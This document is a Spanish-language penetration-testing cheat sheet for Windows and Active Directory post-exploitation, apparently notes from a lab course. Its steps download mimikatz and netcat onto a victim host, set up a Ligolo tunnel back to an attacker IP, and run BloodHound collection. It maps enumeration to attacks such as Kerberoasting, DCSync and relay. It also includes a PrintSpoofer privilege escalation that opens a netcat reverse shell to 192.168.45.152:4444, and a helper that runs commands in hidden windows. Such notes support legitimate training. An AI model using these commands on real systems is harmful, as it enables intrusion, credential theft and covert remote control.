 ### Descargar en victima tools

- **Comprimir archivos en zip**

* Opcion 1:
```bash
cd fwindows/     # dentro de la carpeta que tiene todo
zip -r ../tools.zip * 
```

* Opcion 2:
```bash
zip -r tools.zip agent.exe nc.exe PrintSpoofer64.exe mimikatz.exe PowerView.ps1 SharpHound.ps1
```

* Descarga
```powershell
iwr -uri http://192.168.45.152:8000/<selected_tools>.zip -Outfile <tools>.zip
```

* **Descomprimir**

```bash
Expand-Archive tools.zip -DestinationPath .
```

#### Executor

```bash
. .\Executor.ps1
```

### Enumerar
1. Ligolo tunel

```bash
# Kali
ligolo-proxy -selfcert -laddr 0.0.0.0:11601 -v

session

autoroute

# Agregar listener
listener_add --addr <ip_destino:puerto> --to <ip_kali:puerto> --tcp

# victim

Invoke-Ligolo -ip <kali_ip>

.\agent.exe -connect <kali-ip>:11601 -ignore-cert

```

2. bloodhound

```bash
bloodhound-python -u <user> -p <password> -d <domain> -c All -ns <ip> --zip
```

#### Active Directory

[Active-Directory-Exploitation-Cheat-Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)

#### Mapa asociativo: Enumeración → Ataque → Movimiento Lateral

| Enumeración (izq)                                                 |                                              Ataque (centro) | Movimiento lateral (der)                                                                  |
| ----------------------------------------------------------------- | -----------------------------------------------------------: | ----------------------------------------------------------------------------------------- |
| Enumeración de SPNs                                               |                                                Kerberoasting | Uso de credenciales de servicio para **WinRM / RDP**                                      |
| Detección de cuentas con Kerberos pre-auth deshabilitado (AS-REP) |                                              AS-REP Roasting | Acceso con credenciales recuperadas → **SMB / PsExec / WinRM**                            |
| Enumeración de usuarios y grupos                                  |                              Password spraying / brute-force | Acceso con credenciales válidas → **RDP / WinRM / SMB**                                   |
| Enumeración de ACLs sobre objetos AD                              |                Abuse de ACLs (escalada de permisos) / DCSync | Obtención de hashes/credenciales → **PsExec / Scheduled Tasks / Remote Service**          |
| Descubrimiento de controladores de dominio / DNS (DC discovery)   |              Exploits en DC / ataques a servicios de dominio | Compromiso del DC → dominio pivot → **lateral a hosts críticos**                          |
| Recolección con BloodHound / SharpHound                           | Identificación de rutas de ataque (paths) → Delegation abuse | Abuso de delegación (constrained/unconstrained) → **Pass-the-Ticket / RDP**               |
| Enumeración de servicios y SPNs vinculados a cuentas de servicio  |                 Kerberoasting / abuso de cuentas de servicio | Uso de cuenta de servicio para **SMB/WinRM** lateral                                      |
| Enumeración de AD CS / plantillas de certificados                 |                           AD CS / Certificate issuance abuse | Emisión de credenciales/certificados → autenticación lateral (**WinRM / LDAP over TLS**)  |
| Enumeración de shares SMB / permisos de archivos                  |                                       NTLM relay / SMB relay | Relay para acceso a servicios remotos → **creación de servicio remoto / lateral por SMB** |
| Enumeración de GPOs y scripts de arranque                         |                        Abuso de GPOs (startup/login scripts) | Inyección de payloads en GPO → **ejecución remota / lateral mediante Scheduled Tasks**    |
| Detección de cuentas de servicio con contraseñas repetidas        |                        Credential reuse / credential dumping | Reutilizar credenciales para **PsExec / RDP / WinRM**                                     |
| Enumeración de políticas de bloqueo/contraseña                    |                Password spraying optimizado / timing attacks | Obtención de acceso persistente → **token impersonation / pivoting**                      |


#### sync DC

```bash
ntpdate <dc-ip>
```

#### bloodyAD

[BloodyAD Cheatsheet](https://seriotonctf.github.io/BloodyAD-Cheatsheet/index.html)


#### Certipy

[Ceripy Cheatsheet](https://seriotonctf.github.io/ADCS-Attacks-with-Certipy/index.html)


#### PowerView

[PowerView CheatSheet-1]( https://1337skills.com/cheatsheets/powerview/#basic-usage)


#### Lateral Movement

* **Evil-Winrm**

#### Printer

```powershell
.\PrintSpoofer64.exe -c "C:\Users\eric.wallows\Documents\nc.exe 192.168.45.152 4444 -e cmd"

Invoke-PrintSpoofer -ip <ip>
```

#### Ejecucion en segundo plano

* Funcion

```powershell
function bg_exec($cmd) {
    Start-Process -WindowStyle Hidden -FilePath "powershell.exe" -ArgumentList "-nop -w hidden -c $cmd"
}
```
* ligolo:
```powershell
bg_exec "C:\Users\eric.wallows\Documents\agent.exe -connect 192.168.45.152:11601 -ignore-cert"
```

#### Help:

```bash
. .\Executor.ps1 -h
```

### Shell upgrade (ver Utils)

```bash 
SHELL=/bin/bash script -q /dev/null
```

